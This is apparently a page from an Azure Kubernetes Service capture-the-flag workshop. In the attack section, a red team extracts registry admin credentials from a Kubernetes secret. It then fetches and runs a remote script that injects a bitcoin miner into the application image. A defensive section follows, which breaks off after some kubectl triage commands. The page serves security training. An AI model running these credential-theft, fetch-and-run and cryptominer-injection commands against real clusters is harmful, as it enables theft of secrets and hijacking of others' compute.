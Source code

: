 cd /usr/local/bin; curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"; chmod 555 kubectl
kubectl get secrets
Ooh. There's something called acr-secret. Let's dig in.

kubectl get secrets/acr-secret -o json
There's a .dockerconfigjson file in the secret that appears to be Base64 encoded

kubectl get secrets/acr-secret -o json | jq -r '.data.".dockerconfigjson"' | base64 -d - | jq
Now we're talking! It looks like they put the admin credentials for their registry in a secret. I bet we can use this to both PUSH and PULL new images to their registry.

We can use Buildah to create, pull and push container images. However, we will need escalated privledges.

Some of the other red-team members have found this neat trick from Twitter, which deploy a container that gives us full host access. Let's work with them to find a way to utilize this.

… TIME PASSES …

Good luck! They've come up with two scripts:

run-bitcoin-injector.sh - deploys a Kubernetes Job that uses the registry credentials we found, to create another pod that injects our bitcoin miner into the container
inject-image.sh - Uses Buildah to pull the current app image, inject the bitcoin miner into the image and re-publish the image under the same name
Let's go back to our admin panel and run the following:

This command may take 1-2 minutes to run. Do not refresh the browser page. Wait for the command to complete

curl -O -J https://raw.githubusercontent.com/azure/aks-ctf/refs/heads/main/workshop/scenario_3/run-bitcoin-injector.sh; bash run-bitcoin-injector.sh
Everything has been installed. Let's kill our process and let the new image come up

kubectl delete pod $HOSTNAME
The page immediately died (which is understandable since we killed the pod). Let's reload the page and see if we were successful. Run the following command in the admin page

ps
Our moneymoneymoney process is there and running inside their container! Good luck finding that one!

Ethical Hacking with AKS: Hands-On Attack and Defense Strategies
1 Hr 22 Min Remaining 
Scenario 3 Defense (The calls are coming from inside the container!)
We've gotten paged. AGAIN! Let's check the cluster.

Return to the Blue terminal tab and run the following commands.

Any unwanted open ports?

kubectl get service -A
Any unwanted pods?

kubectl get pods -A
Where's the spike coming from?

kubectl top node
What pods?
